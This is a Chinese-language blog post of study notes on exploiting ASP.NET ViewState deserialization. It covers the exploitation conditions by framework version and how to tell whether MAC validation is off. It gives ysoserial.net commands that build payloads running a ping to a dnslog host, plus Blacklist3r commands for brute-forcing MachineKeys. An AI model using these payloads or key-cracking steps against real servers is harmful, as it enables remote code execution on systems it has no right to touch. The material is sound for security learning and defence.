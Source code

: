 ```yaml
---
layout: post
title: "【网络安全】ASP.NET ViewState反序列化漏洞学习"
subtitle: "This is a subtitle"
date: 2024-08-03
author: "QTunneling"
header-img: "img/bg-touhou-1.jpg"
tags: []
---
```


最近连续参加的几次攻防都有见到 ViewState 反序列化漏洞 getshell 的身影，算是红队基本功，简单做下笔记。

相关工具：

1. [ysoserial](https://github.com/pwntester/ysoserial.net)

2. [Blacklist3r](https://github.com/NotSoSecure/Blacklist3r)

## 0x01 概述

ViewState用于在请求之间保持Web控件和页面的状态，防止服务器返回错误导致状态被清空。数据会被序列化成Base64字符串并嵌入页面的隐藏字段（通常是`__VIEWSTATE`）。

漏洞成因在于ASP.NET使用`LosFomatter`序列化 ViewState，并使用`ObjectStateFormatter`反序列化 ViewState。而 ViewState 又完全由客户端提交，尽管过程中可以进行**加密**和**签名**，但一旦相关的 Machinekey（decryption, validation相关信息）泄露，就会触发 ObjectStateFormatter 的反序列化漏洞。

MachineKey 通常显示配置在`web.config`文件中。如果没有显式配置，ASP.NET会自动生成一个密钥，但在应用程序重启时可能会发生变化，导致无法解密先前加密的数据。(?)

示例：

```
<machineKey 
validationKey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0" 
decryptionKey="34C69D15ADD80DA4788E6E3D02694230CF8E9ADFDA2708EF43CAEF4C5BC73887" 
validation="SHA1" 
decryption="AES"  />
```

## 0x02 利用条件

1. ASP.NET<4.5.x，未开启MAC验证

2. ASP.NET<4.5.x，开启MAC验证，ysoserial 工具需要知道 validation 算法，validationkey 来生成 ViewState 的 payload。即使`ViewStateEncryptionMode`已设置为`Always`，ASP.NET 仅会检查请求中是否存在`__VIEWSTATEENCRYPTED`参数，如果删除此参数并发送未加密的有效负载，它仍将被处理

3. ASP.NET>=4.5.x，开启MAC验证，和上一条的区别在于 ysoserial 工具除了需要知道 validation 算法，validationkey，还需要知道 decryption算法和 decryptionkey 来生成 ViewState 的 payload

### 2.1 未开启MAC验证

未开启MAC验证的情况不太常见，ASP.NET4.5.2版本以后强制开启 MAC 验证，手动关闭需要两步：

1、修改注册表 AspNetEnforceViewStateMac 为 0

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFramework\v{version}`

2、修改 web.config 中的 enableViewStateMac 选项为 false

判断是否开启MAC验证：发送`__VIEWSTATE=AAAA`（简单的base64），如果目标页面回显错误，表示MAC验证已被禁用，否则不会显示错误页面（也可能显示具体MAC校验错误信息）

这种情况直接上 payload：

```powershell
.\ysoserial.exe
-o base64
-g TypeConfuseDelegate
-f LosFormatter
-c "ping 123456.dnslog.cn"
# 指定-f LosFormatter或者-p ViewState
```

### 2.2 ASP.NET < 4.5.x，开启MAC验证

ASP.NET 常见的签名算法为 HMACSha256（也可能是SHA1），计算出的签名会附加在 ViewState 数据最后。MacKeyModifier 是签名算法的 Salt，由 ClientId 和 ViewStateUserKey 两部分拼接而成，默认情况下，ViewStateUserKey 为空（也很少会设置），ClientId 为当前页面虚拟目录路径(apppath)和类型名称(path)的 HashCode 之和，并以 Hex 形式存放于名为`__VIEWSTATEGENERATOR`的隐藏表单中。换言之，如果表单中没有该选项，就需要黑盒爆破获得apppath。path可以通过请求路径得出：蒋其中的`.`和`/`替换为为`_`，如`a/b/c.aspx`的最终类型名为`a_b_c_aspx`。

```powershell
.\ysoserial.exe
-o base64
-p ViewState
-g TextFormattingRunproperties
-c "ping 123456.dnslog.cn"
--path="/site/test.aspx"
--apppath="/"
--validationalg="SHA1"
--validationkey="BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
```

### 2.3 ASP.NET >= 4.5.x，开启MAC验证

高版本的ASP.NET能否强行关闭MAC验证，只启用加密？（未做实验）

```powershell
.\ysoserial.exe
-o base64
-p ViewState
-g TextFormattingRunproperties
-c "ping 123456.dnslog.cn"
--generator=CA0B0334
--validationalg="SHA1"
--validationkey="BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
--decryptionalg="3DES"
--decryptionkey="CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC"
```

### 2.4 MachineKey

开启 MAC 验证后必须知道 Machinekey 才能打，一般是通过任意文件读取或者XXE漏洞获得，也可以使用 Blacklist3r 工具爆破：

```powershell
.\ASPNetWrapper.exe
--keypath MachineKeys.txt
--encrypteddata={__VIEWSTATE}
--modifier={__VIEWSTATEGENERATOR}
```

### 2.5 其他

借助 yso 的 islegacy 和 isdebug 开关，可以尝试猜测 path 和 apppath 的值

如果服务器设置了 ViewStateUserKey，则需要在添加`--viewstateuserkey`选项

## 0x03 攻击链

TypeConfusedDelegate 链？

ActivitySurrogateSelectorFromFile 链?

## 0x04 ViewState CVE

- CVE-2020-0688

- CVE-2020-16592

## 0x05 参考

- [.NET 分享ViewState反序列化漏洞个人总结 (qq.com)](https://mp.weixin.qq.com/s/7mtTDKQ3eJet3rxLKZyBNw)

- [深入 .NET ViewState 反序列化及其利用 (qq.com)](https://mp.weixin.qq.com/s/RlY5HL_ak4G8EdcXyevWDg)

- [通过 ViewState 利用 ASP.NET 中的反序列化 |Soroush Dalili （@irsdl） 博客](https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)

- [玩轉 ASP.NET VIEWSTATE 反序列化攻擊、建立無檔案後門 | DEVCORE 戴夫寇爾](https://devco.re/blog/2020/03/11/play-with-dotnet-viewstate-exploit-and-create-fileless-webshell/)

- [ViewState反序列化 - zpchcbd - 博客园 (cnblogs.com)](https://www.cnblogs.com/zpchcbd/p/15112047.html)

- [TypeConfusedDelegate以及魔改yso - Gr3yy's Blog (gr3yyy123.github.io)](https://gr3yyy123.github.io/2022/05/28/TypeConfusedDelegate%E4%BB%A5%E5%8F%8A%E9%AD%94%E6%94%B9yso/)

- [.Net ViewState反序列化实现无文件哥斯拉内存马 – Whwlsfb's Tech Blog (wanghw.cn)](https://blog.wanghw.cn/security/dotnet-viewstate-no-file-godzilla-memshell.html)

- [利用ViewState在ASP.NET中实现反序列化RCE - 技术转载 安全矩阵 (smatrix.org)](http://www.smatrix.org/forum/forum.php?mod=viewthread&tid=331)

- [利用.NET 反序列化做权限维持 | MYZXCG](https://myzxcg.com/2021/11/%E5%88%A9%E7%94%A8.NET-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%81%9A%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/)

- [CVE-2020-0688的武器化与.net反序列化漏洞那些事-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/199921#h3-9)

- [Zero Day Initiative — CVE-2020-0688: Remote Code Execution on Microsoft Exchange Server Through Fixed Cryptographic Keys](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
